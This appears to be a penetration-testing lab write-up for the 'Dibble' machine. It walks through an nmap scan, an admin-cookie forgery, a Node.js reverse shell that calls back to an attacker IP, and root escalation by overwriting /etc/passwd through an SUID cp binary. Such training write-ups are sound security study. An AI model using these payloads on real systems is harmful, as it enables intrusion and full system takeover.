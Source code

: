 # Dibble

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.110
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 12:24 +08
Nmap scan report for 192.168.157.110
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
3000/tcp  open  ppp
27017/tcp open  mongod
```

FTP accepts anonymous logins but there's nothing within it.&#x20;

### Web Enum --> Admin Takeover

Port 80 shows a blog about some web exploits:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Port 3000 shows a more dynamic incident reporting site:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

I registed a new account and looked at the events:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Doesn't look super relevant. I checked Burpsuite, and noticed this cookie:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

When decoded, it gives `default`. I changed it to a `base64` encoded `admin` string, giving `YWRtaW4=`, which allows us to create logs.

### RCE

The new log event specified that we can write code in it:

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

The `X-Powered-By` header specified that this was using Express, which is Javascript. Since we can directly write code, I tried putting in a Node.js reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(21, "192.168.45.196", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

When we submit thiss, we get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (12) (14).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### cp SUID --> Root

`cp` is an SUID binary on this machine:

```
[benjamin@dibble ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
```

We can use this to overwrite files, just add this line into a copy of the current `/etc/passwd`:

```
hacker:$1$ZNhJDyK2$vksoiVz4W8rhrWm8BKxWK/:0:0::/root:/bin/bash
```

Then, use `cp` to overwrite the existing `/etc/passwd` file and `su` to `hacker` with 'hello123':

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
